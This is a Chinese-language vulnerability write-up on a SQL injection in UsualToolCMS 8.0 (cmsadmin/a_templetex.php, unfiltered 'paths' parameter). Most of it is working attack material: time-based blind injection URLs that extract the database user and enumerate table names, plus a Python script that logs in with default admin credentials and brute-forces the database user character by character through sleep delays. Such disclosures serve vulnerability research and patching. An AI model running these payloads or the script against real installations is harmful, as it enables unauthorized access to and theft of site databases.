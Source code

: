 ### 0x01 漏洞环境

版本信息：UsualToolCMS-8.0-Release
 版本下载：http://www.a5xiazai.com/php/140604.html
 官网下载：https://cms.usualtool.com/down/UsualToolCMS-8.0-Release.zip

### 0x02 漏洞分析

在./cmsadmin/a_templetex.php文件第137行，paths变量没有过滤，136行从get处获取paths，没有任何过滤:
![1](UsualToolCMS-8.0 sql注⼊漏洞/1.png)

当从get处获得的t等于open时就可以出发这个sql注入，在文件第129行:
![2](UsualToolCMS-8.0 sql注⼊漏洞/2.png)

构造payload：

```
Copya_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),1,1))>0,sleep(5),1)--+
```

![3](UsualToolCMS-8.0 sql注⼊漏洞/3.png)

由于是时间盲注，编写延迟注入脚本:

```
Copy# -*- coding:utf-8 -*-
import time
import requests
session = requests.session()
headers = {'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0'}
img_url = 'http://192.168.8.108:8081/UsualToolCMS-8.0-Release/class/UsualToolCMS_Code.php?r=13720'
img_req = session.get(url=img_url,headers=headers).content
with open('pic.png','wb') as f:
    f.write(img_req)
code = input('请输入验证码：')
data = {
    'uuser':'admin',
    'upass':'admin',
    'ucode':code
}
payloads = list('root@localhostasfafsasf')
url = 'http://192.168.8.108:8081/UsualToolCMS-8.0-Release/cmsadmin/a_login.php?do=login'
response = session.post(url=url,headers=headers,data=data)
res_url_1 = "http://192.168.8.108:8081/UsualToolCMS-8.0-Release/cmsadmin/a_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring(user(),{},1))={},sleep(5),1)--+"
result = ''
for i in range(1,15):
    for payload in payloads:
        res_url_2 = res_url_1.format(str(i),ord(payload))
        start_time = time.time()
        response = session.get(url=res_url_2,headers=headers)
        if time.time() - start_time > 7:
            result = result + payload
            print(result)
            break
```



爆数据库表payload：![4](UsualToolCMS-8.0 sql注⼊漏洞/4.png)

```
Copya_templetex.php?t=open&id=1&paths=templete/index' where id=1 and if(ascii(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>0,sleep(5),1)--+
```

![5](UsualToolCMS-8.0 sql注⼊漏洞/5.png)

\----------------------------------------------------------------------------